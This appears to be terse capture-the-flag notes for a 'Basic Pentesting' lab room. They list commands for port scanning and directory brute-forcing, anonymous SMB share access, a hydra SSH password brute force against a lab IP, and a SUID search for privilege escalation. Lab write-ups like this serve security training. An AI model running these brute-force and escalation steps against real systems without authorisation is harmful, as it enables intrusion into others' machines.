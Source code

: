 
# BASIC PENTESTIN

### What is the name of the hidden directory on the web server(enter name without /)?
```bash
nmap -sv "IP"
 ```
## Gobuster 

```bash
sudo gobuster dir -u http://0.0.0.0/ -x txt,php,html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 2> /dev/null
 ```   

### - User brute-forcing to find the username & password
 - smbclient
```bash
  smbclient -L "ip" 
 ```
 -  Find anonymous
```bash
 smbclient -N \\\\10.10.181.112\\Anonymous
 ```
download "get staff.txt" (find o user "jan")

### Hidra
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.181.112 ssh -V -F
 ```
 - (-l user, -P path, -F stop when found valid password, -V verbose)

### What is the final password you obtain?

- user kay

## Encontrar arquivos com permissoes 
#### Search for files with SUID permission, which file is weird?
```bash
find / -perm -u=s -ls 2>/dev/null
```
### VIM
## Site SUID
```bash
https://gtfobins.github.io/gtfobins/python/
 ```  


